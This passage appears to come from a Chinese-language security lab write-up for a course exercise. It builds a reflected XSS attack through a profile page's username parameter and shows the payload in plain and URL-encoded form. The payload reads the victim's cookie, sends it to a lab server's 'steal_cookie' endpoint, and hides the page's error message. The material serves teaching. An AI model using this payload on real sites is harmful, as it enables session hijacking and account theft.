 ```javascript
// 获取 cookie
const params = "cookie=" + encodeURIComponent(document.cookie);
const req = new XMLHttpRequest();
req.withCredentials=true;
req.onload = function() {
	// 发送完成后，重定向 url 到一个正常的页面
	window.location = 'http://localhost:3000/profile';
}
req.open('GET', 'http://localhost:3000/steal_cookie?' + params);
req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
req.send(null);
```

考虑到统一性，全部使用 javascript 代码，形成的 URL 如下：

```javascript
http://localhost:3000/profile?username=
<script>
    document.getElementsByClassName('error')[0].hidden = true;
    const params = "cookie=" + encodeURIComponent(document.cookie);
    const req = new XMLHttpRequest();
    req.withCredentials=true;
    req.onload = function() {
        window.location = 'http://localhost:3000/profile';
    }
    req.open('GET', 'http://localhost:3000/steal_cookie?' + params);
    req.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
    req.send(null);
</script>
```

经过 URL 转义后的 URL：

```javascript
http://localhost:3000/profile?username=%0D%0A%3Cscript%3E%0D%0A%20%20%20%20document.getElementsByClassName(%27error%27)%5B0%5D.hidden%20%3D%20true%3B%0D%0A%20%20%20%20const%20params%20%3D%20%22cookie%3D%22%20%2B%20encodeURIComponent(document.cookie)%3B%0D%0A%20%20%20%20const%20req%20%3D%20new%20XMLHttpRequest()%3B%0D%0A%20%20%20%20req.withCredentials%3Dtrue%3B%0D%0A%20%20%20%20req.onload%20%3D%20function()%20%7B%0D%0A%20%20%20%20%20%20%20%20window.location%20%3D%20%27http%3A%2F%2Flocalhost%3A3000%2Fprofile%27%3B%0D%0A%20%20%20%20%7D%0D%0A%20%20%20%20req.open(%27GET%27%2C%20%27http%3A%2F%2Flocalhost%3A3000%2Fsteal_cookie%3F%27%20%2B%20params)%3B%0D%0A%20%20%20%20req.setRequestHeader(%22Content-Type%22%2C%20%22application%2Fx-www-form-urlencoded%22)%3B%0D%0A%20%20%20%20req.send(null)%3B%0D%0A%3C%2Fscript%3E
```

使用浏览器访问该 URL，发现服务器命令行打印了相关信息：

![image-20220504162912232](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220504162912232.png)

同时页面显示正常

![image-20220504163005167](https://raw.githubusercontent.com/HSPK/pics/master/img/image-20220504163005167.png)

**spring 2017 版**
